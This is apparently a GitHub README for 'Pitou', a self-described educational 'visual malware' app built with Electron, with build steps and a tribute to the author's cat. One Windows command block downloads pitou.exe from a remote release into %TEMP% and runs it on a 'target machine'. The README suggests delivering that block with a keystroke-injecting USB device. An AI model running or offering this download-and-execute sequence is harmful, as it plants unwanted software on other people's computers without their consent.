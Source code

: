 # Pitou 
Pitou is a visual malware developed for education purposes.

This program is written in Javascript and is made to run with [Electron](https://www.electronjs.org/). Some libraries are required, [see](#libs) the list of libraries used in this project.

![alt text](./Demo.PNG)

## How to use
### Disclaimer
- This is for academic purposes, the use of this software is your responsibility.

### Use with Node.js
1) Run `npm install`.
2) Run `npm run start`.

### Use a compiled version (Recommended)
1) Garb a compiled version of the program.
2) Run `pitou.exe`.

## Compile using Electron-Builder
To compile from source, you will need to follow the instructions listed below.

1) Run `npm install`
2) Install [Electron-Builder](https://www.electron.build/).
3) Run `electron-builder --win portable`.
4) Change `--win` with the os you are using.

Note that the program is already compiled in the Releases section.

## Libs
Here is the list of used libraries, you can download all of them using `npm install`.
- `Electron` - Used to display windows.

## Install & Run from command line
This can be usefull for exemple if you want to use a USB stick which emulate a keyboard when you plug it into a machine.

### Window
Copy and paste the commands in a cmd on a target machine.

```bash
cd %TEMP%
powershell wget "https://github.com/AntoineBRTL/Pitou/releases/download/v2.0.0/pitou.exe" -outfile "p.exe"
p.exe
exit
```

## Context
Pitou is my cat and I love him so much that I've decided to honour him doing this program.
Please, he is so nice so take care of him and he will be happy, and you'll never forget him ...
Lila is his mother and Clony is his sister.
